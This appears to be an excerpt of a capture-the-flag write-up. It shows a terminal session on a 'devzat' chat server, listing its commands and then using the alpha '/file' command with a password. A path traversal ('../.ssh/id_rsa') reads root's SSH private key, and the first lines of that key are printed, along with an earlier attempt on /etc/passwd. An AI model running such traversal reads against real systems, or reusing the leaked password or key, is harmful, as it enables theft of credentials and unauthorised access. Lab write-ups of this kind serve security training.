 ```shell
[SYSTEM] clear - Clears your terminal
[SYSTEM] message - Sends a private message to someone
[SYSTEM] users - Gets a list of the active users
[SYSTEM] all - Gets a list of all users who has ever connected
[SYSTEM] exit - Kicks you out of the chat incase your client was bugged
[SYSTEM] bell - Toggles notifications when you get pinged
[SYSTEM] room - Changes which room you are currently in
[SYSTEM] id - Gets the hashed IP of the user
[SYSTEM] commands - Get a list of commands
[SYSTEM] nick - Change your display name
[SYSTEM] color - Change your display name color
[SYSTEM] timezone - Change how you view time
[SYSTEM] emojis - Get a list of emojis you can use
[SYSTEM] help - Get generic info about the server
[SYSTEM] tictactoe - Play tictactoe
[SYSTEM] hangman - Play hangman
[SYSTEM] shrug - Drops a shrug emoji
[SYSTEM] ascii-art - Bob ross with text
[SYSTEM] example-code - Hello world!
[SYSTEM] file - Paste a files content directly to chat [alpha]
catherine: /file /etc/passwd
[SYSTEM] You need to provide the correct password to use this function
catherine: 
```
```shell
catherine: /file /etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/etc/passwd does not exist!
catherine: /file ../.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
<SNIP>
```
